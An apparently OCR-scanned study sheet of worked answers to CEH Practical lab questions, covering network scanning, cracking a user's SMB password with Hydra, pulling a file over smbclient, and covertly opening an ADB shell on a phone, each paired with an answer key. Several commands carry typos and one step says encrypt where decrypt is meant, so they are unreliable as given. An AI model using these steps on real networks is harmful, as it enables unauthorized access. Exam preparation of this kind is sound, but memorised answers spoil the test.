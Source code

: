 Step-1 in exam when login sudo arp-scan -local or netdiscover -i 10.10.1.0 or nmap -sn ip/24
htps://github.com/dhabaleshwar/CEHPractcal/tree/main htps://github.com/cmuppin/CEH
1.Perform extensive scan of the target network and identfy the FQDN of the Domain Controller.
Answer: AdminTeam.ECCCEH.com
1. nmap -p389 -sV 10.10.1.13/24
2. Go to 10.10.1.22 server and login and go to this pc then right click and go down click on rename this pc
advanced.

===================================================================================================================

2.While investgatng an atack, you found that a Windows web development environment was exploited to gain access to the system. Perform extensive scanning and service enumeraton of the target networks and identfy the IP address of the server running WampServer.
Answer: 172.20.0.16
1. namp -sV -A -p 80 10.10.1.13/24

===================================================================================================================

3.Identfy a machine with SMB service enabled in the 192.168.0.0/24 subnet. Crack the SMB credentals for user Henry and obtain Snif.txt fle containing an encoded secret. Decrypt the encoded secret and enter the decrypted text as the answer. Note: Use Henry's password to decode the text.
Answer: nvkwj2387
1. Scan the entre subnet for open smb ports. You can use the wordlist available on the desktop on Parrot os. Use Hydra to crack it. The password for the encoded fle is the same. If the fle contains a hash, try to decode it.
2. sudo nmap -T4 -Ss -p 139,445 - -script vuln 192.168.0.0/24
3. hydra-l henry -P /home/passlist.txt 192.168.0.1 smb
4. smbclient //192.168.0.1/share
5. smbclient -L 192.168.0.1
6. type password and ls
7. get snif.txt ~/Desktop/falg2.txt or more snif.txt
8. cat falg2.txt
9. now encrypt the text using the same henry login password in bctextencoder.exe manual open

===================================================================================================================

4.An insider atack has been identfed in one of the employees’ mobile devices in 192.168.0.0/24 subnet. You are assigned to covertly access the user’s device and obtain malicious elf fles stored in a folder "Scan". Perform deep scan on the elf fles and obtain the last 4 digits of SHA 384 hash of the fle with highest entropy value.
Answer: 7aea
1. sudo nmap -p 5555 192.168.0.0/24
2. adb connect 192.168.0.14:5555
3. adb shell
4. ls and cd sdcard and ls and pwd
5. adb pull /sdcard/scan/ or adb pull /sdcard/scan atacker/home/
6. ls and cd scan and ls
7. ent -h or apt install ent
8. ent evil.elf
9. ent evil2.elf
10. ent evil3.elf
11. sha384sum evil.elf
12. then you get one hash value type last 4 characters.
